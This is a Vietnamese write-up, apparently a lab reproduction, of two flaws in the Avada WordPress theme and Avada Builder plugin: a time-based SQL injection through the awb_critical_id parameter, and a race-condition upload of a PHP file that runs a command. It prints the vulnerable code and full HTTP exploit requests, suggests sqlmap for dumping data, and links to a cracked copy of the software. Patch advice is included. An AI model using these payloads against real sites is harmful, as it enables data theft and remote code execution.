

# Multiple High and Critical Vulnerabilities in Avada Theme and Plugin


- Nhiều lỗ hổng nghiêm trọng tồn tại trong Avada Theme <= 7.11.1 và Avada Builder plugin <= 3.11.1


### Setup
- Avada Theme 7.8.2
- Avada Builder plugin 3.8.2
- Theme và plugin crack ở đây
[Source](avada.zip)


- Thêm mới theme

- Như này là được 

- Thêm mới plugin và add mới


## I. Authenticated SQL Injection in Plugin
- Enable Critical CSS để sử dụng được action trong ajax-admin
- Vào Options > Performance > Enable Critical CSS (On) > Save Changes


- Generate Critical Css


- Ảnh là đặt var_dump() vào \$query cho dễ debug

- Lỗ hổng tại hàm wp-content/plugins/fusion-builder/inc/critical-css/class-awb-critical-css-page.php, function ajax_regenerate_css()

- Phần khởi tạo có add action để gọi ajax-admin nhưng cần phải xác thực.

```php
public function __construct() {
    add_action( 'admin_menu', [ $this, 'add_menu_page' ], 12 );
    add_action( 'wp_ajax_awb_search_query', [ $this, 'search_query' ] );
    add_action( 'wp_ajax_awb_critical_new', [ $this, 'ajax_get_urls' ] );
    add_action( 'wp_ajax_awb_bulk_update_css', [ $this, 'ajax_get_bulk_urls' ] );
    add_action( 'wp_ajax_awb_critical_css', [ $this, 'ajax_save_css' ] );
    add_action( 'wp_ajax_awb_regenerate_critical_css', [ $this, 'ajax_regenerate_css' ] );

    if ( is_admin() ) {
        $this->bulk_actions();
    }
}
```


- Id được lấy từ \$_GET['awb_critical_id']
```php
$id = sanitize_text_field( wp_unslash( $_GET['awb_critical_id'] ) );

$entry = AWB_Critical_CSS()->get(
    [
        'where' => [
            'id' => '"' . $id . '"',
        ],
    ]
);
```

- Hàm get() chỉ thêm một số truy vấn điều kiện chứ không làm sạch biến id.
```php
public function get( $args = [] ) {
    global $wpdb;

    $defaults = [
        'what'     => '*',
        'where'    => [],
        'order_by' => '',
        'order'    => 'ASC',
        'limit'    => '',
        'offset'   => 0,
    ];
    $args     = wp_parse_args( $args, $defaults );

    // The table name.
    $table_name = $wpdb->prefix . $this->table_name;

    // The query basics.
    $query = 'SELECT ' . $args['what'] . " FROM `$table_name`";


    // Build the WHERE fragment of the query.
    if ( ! empty( $args['where'] ) ) {
        $where = [];
        foreach ( $args['where'] as $where_fragment_key => $where_fragment_val ) {
            if ( false === strpos( $where_fragment_val, 'LIKE' ) ) {
                $where[] = "$where_fragment_key = $where_fragment_val";
            } else {
                $where[] = "$where_fragment_key $where_fragment_val";
            }
        }

        $query .= ' WHERE ' . implode( ' AND ', $where );
    }

    // Build the ORDER BY fragment of the query.
    if ( '' !== $args['order_by'] ) {
        $order  = 'ASC' !== strtoupper( $args['order'] ) ? 'DESC' : 'ASC';
        $query .= ' ORDER BY ' . $args['order_by'] . ' ' . $order;
    }

    // Build the LIMIT fragment of the query.
    if ( '' !== $args['limit'] ) {
        $query .= ' LIMIT ' . absint( $args['limit'] );
    }

    // Build the OFFSET fragment of the query.
    if ( 0 !== $args['offset'] ) {
        $query .= ' OFFSET ' . absint( $args['offset'] );
    }

    var_dump($query);


    return $wpdb->get_results( $query ); // phpcs:ignore WordPress.DB
}
```

- Thực hiện union attack với time delay


- Payload
```php
GET /wordpress/wp-admin/admin-ajax.php?action=awb_regenerate_critical_css&awb_critical_id=1"+union+select+sleep(10),null,null,null,null,null,null+--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694158744%7ClXVo7CI92RXup6lamCqGhl5mFyfqJiXHPX76FpS5I1U%7C0410ef2aa5cf0ac12660fdc07e85b9a838625dd2eb0d76af3a787f062c052b55; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694158744%7ClXVo7CI92RXup6lamCqGhl5mFyfqJiXHPX76FpS5I1U%7C8d15e3344ff93c6bea2bb124dd6ee0b8c2ca31f4b621fba30bac4127b1f32231; wp-settings-time-1=1693985946; testcookie=; am_username=; am_check=; memarketing-_zldp=Mltw9Iqq5RQZSO3V%2BzsvBcNWWgn4MPqtgkD49oq5K0JAoyZxNsNt%2FX8EdhLYh1dsrq2vjv8sJRs%3D; selectedtab=2_1; selectedDropDown=monitortabtd; session_id=70169739c0413b46c980e543e69c53ee17d81244
Connection: close

```

- Ở hàm wp-content/plugins/fusion-builder/inc/critical-css/class-awb-critical-css-page.php, function ajax_save_css() cũng tồn tại lỗ hổng sqli tương tự.


- Có thể sử dụng sqlmap để dump


#### Giải pháp
- Cách phòng chống sqli đơn giản cho id là ép kiểu về định dạng muốn.
- Dùng intval() để ép thành kiểu nguyên


- Dùng esc_sql() của wordpress để escape dấu nháy thành 1 phần của truy vấn và không thể thoát ra câu truy vấn.


## II. Contributor+ Arbitrary File Upload
- Người dùng có thể upload file bất kỳ lên hệ thống.
- Lỗ hổng chức năng file upload tồn tại ở wp-content/themes/Avada/includes/avada-app/class-fusion-panel.php, function ajax_import_options()


```php
public function ajax_import_options() {
		check_ajax_referer( 'fusion_load_nonce', 'fusion_load_nonce' );
		$wp_filesystem = Fusion_Helper::init_filesystem();
		$upload_dir    = wp_upload_dir();
		$dir_path      = wp_normalize_path( trailingslashit( $upload_dir['basedir'] ) . 'fusion-page-options-export/' );
		$dir_url       = trailingslashit( $upload_dir['baseurl'] ) . 'fusion-page-options-export/';
		$content_json  = false;

		// If its an uploaded file.
		if ( isset( $_FILES['po_file_upload'] ) ) {
			if ( ! isset( $_FILES['po_file_upload']['name'] ) ) {
				return false;
			}

			$json_file_path = wp_normalize_path( $dir_path . wp_unslash( $_FILES['po_file_upload']['name'] ) ); // phpcs:ignore WordPress.Security.ValidatedSanitizedInput

			if ( ! file_exists( $dir_path ) ) {
				wp_mkdir_p( $dir_path );
			}

			if ( ! isset( $_FILES['po_file_upload'] ) || ! isset( $_FILES['po_file_upload']['tmp_name'] ) ) {
				return false;
			}
			// We're already checking if defined above.
			if ( ! $wp_filesystem->move( wp_normalize_path( $_FILES['po_file_upload']['tmp_name'] ), $json_file_path, true ) ) { // phpcs:ignore WordPress.Security.ValidatedSanitizedInput
				return false;
			}

			$content_json = $wp_filesystem->get_contents( $json_file_path );
            var_dump($json_file_path);
//			$wp_filesystem->delete( $json_file_path );

		} elseif ( isset( $_POST['toUrl'] ) ) {
			$args = [
				'user-agent' => 'avada-user-agent',
			];

			$content_json = wp_remote_retrieve_body( wp_remote_get( esc_url( wp_unslash( $_POST['toUrl'] ) ), $args ) ); // phpcs:ignore WordPress.Security.ValidatedSanitizedInput
		}

		echo wp_json_encode( $content_json );
		die();
	}
```

- Đầu tiên tạo 1 file để upload
```php
<?php
    $nonce = wp_create_nonce('fusion_load_nonce');
?>

<!DOCTYPE html>
<html>
<body>

<form action="http://localhost/wordpress/wp-admin/admin-ajax.php?action=fusion_panel_import" method="post" enctype="multipart/form-data">
     Thêm nonce như một input ẩn
    <input type="hidden" name="fusion_load_nonce" value="<?php echo $nonce; ?>">

    Select image to upload:
    <input type="file" name="po_file_upload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>

</body>
</html>

```
- Comment chức năng xoá file và hiện thông tin đường dẫn ra.


- File đã được lưu vào trong server




- Upload thành công


- Thực tế thì sau khi lấy content của file lưu vào biến \$content_json để echo thì sẽ xoá file.

- Nhưng server lại lưu file rồi mới xoá điều này có thể dẫn tới cuộc tấn công upload file race condition để truy cập vào file trước khi nó bị xoá.


src: https://sec.vnpt.vn/2023/05/exploiting-file-upload-vulnerability-with-race-conditions-challenge-for-you/

- Payload

- Request tạo file.
```
POST /wordpress/wp-admin/admin-ajax.php?action=fusion_panel_import&_ajax_nonce=38a87dbf3f HTTP/1.1
Host: localhost
Content-Length: 331
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCW2uNVKVzofQXcnv
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/wordpress/file_upload.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694317669%7CpQV2XSHniTz62hqZMfM7Mf0xIioq7TCi03aJr0QW14L%7C4424ea9d198d605e77bb3dda3b38572bec6aef735bacee774bd20458958a10b2; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694317669%7CpQV2XSHniTz62hqZMfM7Mf0xIioq7TCi03aJr0QW14L%7C429e15ff3ff283381731bafe13c5110823754a6cc42e036d7590e3a211821d53; wp-settings-1=editor%3Dtinymce; wp-settings-time-1=1694144870; testcookie=; am_username=; am_check=; memarketing-_zldp=Mltw9Iqq5RQZSO3V%2BzsvBcNWWgn4MPqtgkD49oq5K0JAoyZxNsNt%2FX8EdhLYh1dsrq2vjv8sJRs%3D; selectedtab=2_1; selectedDropDown=monitortabtd; session_id=70169739c0413b46c980e543e69c53ee17d81244; fusionredux_current_tab=83
Connection: close

------WebKitFormBoundaryCW2uNVKVzofQXcnv
Content-Disposition: form-data; name="po_file_upload"; filename="test.php"
Content-Type: application/octet-stream

<?php
exec("calc");
------WebKitFormBoundaryCW2uNVKVzofQXcnv
Content-Disposition: form-data; name="submit"

Upload Image
------WebKitFormBoundaryCW2uNVKVzofQXcnv--
```

- Request truy cập file

```

GET /wordpress/wp-content/uploads/fusion-page-options-export/test.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694317669%7CpQV2XSHniTz62hqZMfM7Mf0xIioq7TCi03aJr0QW14L%7C429e15ff3ff283381731bafe13c5110823754a6cc42e036d7590e3a211821d53; wp-settings-1=editor%3Dtinymce; wp-settings-time-1=1694144870; testcookie=; am_username=; am_check=; memarketing-_zldp=Mltw9Iqq5RQZSO3V%2BzsvBcNWWgn4MPqtgkD49oq5K0JAoyZxNsNt%2FX8EdhLYh1dsrq2vjv8sJRs%3D; selectedtab=2_1; selectedDropDown=monitortabtd; session_id=70169739c0413b46c980e543e69c53ee17d81244; fusionredux_current_tab=83
Connection: close

```

- Cho 2 request vào turbo intruder để run.

- Kết quả


- Ở bản vá nhà cung cấp chỉ chấp nhận tải file json.


# Tham khảo
- https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/#:~:text=The%20Avada%20theme%20itself%20also,execution%20on%20the%20WordPress%20site.
- https://sec.vnpt.vn/2023/05/exploiting-file-upload-vulnerability-with-race-conditions-challenge-for-you/
